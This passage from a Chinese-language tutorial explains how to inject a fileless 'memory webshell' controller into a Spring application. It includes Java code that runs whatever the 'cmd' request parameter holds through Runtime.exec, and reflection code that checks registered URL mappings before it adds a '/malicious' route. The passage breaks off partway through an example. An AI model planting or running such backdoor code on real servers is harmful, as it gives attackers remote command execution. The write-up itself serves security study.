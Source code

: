 ```java
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // 获取cmd参数并执行命令
        java.lang.Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
```
#### getAttribute
```java
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```
同上，因为获取的都是Child WebApplicationContext
### 阻止重复添加controller (非必须)
这里使用[bitterz](https://www.cnblogs.com/bitterz/p/14820898.html#11-fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%92%8Cjndi)大佬的代码
上面获取的requestMappingHandlerMapping中有一个mappingRegistry成员对象，而该对象下的urlLookup属性保存了已经注册的所有url路径，对mappingHandlerMapping进一步后发现，以上对象和属性都是私有的，且mappingRegistry并非mappingHandlerMapping中创建的，而是来自于基类AbstractHandlerMethodMapping。
AbstractHandlerMethodMapping基类的getMappingRegistry方法可以获取mappingRegistry，而urlLookup是其内部类MappingRegistry的私有属性，可以通过反射获取，反射获取urlLookup和判断我们给定的url是否被注册的代码块如下
```java
// 获取abstractHandlerMethodMapping对象，以便反射调用其getMappingRegistry方法
AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
// 反射调用getMappingRegistry方法
Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
method.setAccessible(true);
Object  mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
// 反射获取urlLookup属性
Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
field.setAccessible(true);
Map urlLookup = (Map) field.get(mappingRegistry);
// 判断我们想要注入的路径是否被已经存在
Iterator urlIterator = urlLookup.keySet().iterator();
List<String> urls = new ArrayList();
while (urlIterator.hasNext()){
    String urlPath = (String) urlIterator.next();
    if ("/malicious".equals(urlPath)){
        System.out.println("url已存在");
        return;
    }
}
```
### 实例(添加Controller)
#### 0x1 注入普通马
在上述知道了具体的操作方法，我在这里使用一个手动注册的Controller，里面包含恶意代码，这样来模拟一下无文件内存马
```java
package com.spring.Controller;

import org.springframework.beans.factory.NoSuchBeanDefinitionException;
import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
```